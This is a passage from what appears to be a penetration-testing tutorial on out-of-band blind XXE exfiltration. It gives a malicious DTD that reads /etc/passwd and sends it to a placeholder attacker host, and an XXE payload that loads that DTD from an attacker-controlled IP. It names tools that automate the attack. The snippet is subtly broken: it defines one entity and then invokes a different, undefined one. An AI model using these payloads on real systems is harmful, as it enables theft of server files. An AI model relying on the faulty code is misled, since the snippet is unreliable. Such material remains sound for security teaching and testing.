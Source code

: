Exfiltrating sensitive data in blind XXE is hard but not possible. This can be achieved by hosting a malicious DTD on a system that an attacker controls and then invoking it within the XXE payload. An example of a malicious DTD to exfiltrate contents of `/etc/passwd`:
```dtd
<!ENTITY % out SYSTEM "php://filter/read=convert.base64-encode/resource=file:////etc/passwd">
<!ENTITY % oob "<!ENTITY &#x25; referenceme SYSTEM 'http://OUR_IP:OUR_PORT/?content=%out;'>">
%oob;
%exfil;
```
> Note: Alternatively, we can use Burp Collaborator, [CanaryTokens](https://canarytokens.org/generate#), or [interactsh](https://github.com/projectdiscovery/interactsh) to replace `OUR_IP:OUR_PORT`.

The attacker must then host the malicious DTD on a system they control. For example, the attacker might serve it at the following URL: `https://web-attacker.com/malicious.dtd`.

Finally, the attacker must submit the following XXE payload to the vulnerable application:
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "http://10.100.13.200:4444/data.dtd"> %xxe;]>
<stockCheck><productId>11234</productId></stockCheck>
```

Alternatively, we can use [XXEInjection](https://github.com/enjoiz/XXEinjector) to automate this process.